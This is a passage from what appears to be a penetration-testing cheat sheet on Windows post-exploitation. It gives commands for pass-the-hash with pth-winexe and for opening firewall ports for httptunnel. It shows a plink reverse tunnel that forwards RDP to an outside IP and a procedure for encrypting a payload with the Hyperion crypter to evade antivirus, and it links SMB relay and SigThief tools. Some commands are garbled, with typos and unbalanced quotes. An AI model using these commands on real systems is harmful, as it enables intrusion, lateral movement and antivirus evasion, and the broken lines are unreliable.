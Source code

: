 [SMB Relay demystified and NTLMv2 Pwnage with Python](https://pen-testing.sans.org/blog/pen-testing/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)

##### Token Stealing

Once you have admin access on a computer, you can use the tokens of the other users to access resources in the domain.

##### Passing the Hash

```
Kali> export SMBHASH="HASH"
Kali> pth-winexe -U administrator //$TARGET cmd
```

[Pass the Hash toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

##### runas

[Invoke-Runas](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps)

[Runas Reference](https://ss64.com/nt/runas.html)

##### Encapsulating SSH Traffic with httptunnel

```
# Bypass Notify with administrative account
$secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
$mycreds = New-Object System.Management.Automtion.PSCredential("Administrator", $secpasswd)
$computer = "DEV01"
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1

# add ruleset for firewall
C:\> netsh advfirewall firewall add rule name ="httptunnel_client" dir=in action=allow program="httptunnel_client.exe enable=yes
C:\> netsh advfirewall firewall add rule name ="3000" dir=in action=allow protocol=TCP localport=3000
C:\> netsh advfirewall firewall add rule name="1080 dir=in action=allow protocol=TCP localport=1080
C:\> netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079
C:\> httptunnel_client.exe

# upload /usr/share/windows-binaries/plink.exe then setup port forward
C:\> plink -l root -pw pass -R 3389:127.0.0.1:3389 208.68.234.99 -P 3000

# Bypass Anti-virus
Kali> cp payload.exe newpayload.exe
Kali> cp /usr/share/windows-binaries/Hyperion-1.0.zip .
Kali> i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
Kali> wine hyperion.exe ../newpayload.exe ../crypted.exe
```

[SigThief](https://github.com/secretsquirrel/SigThief)
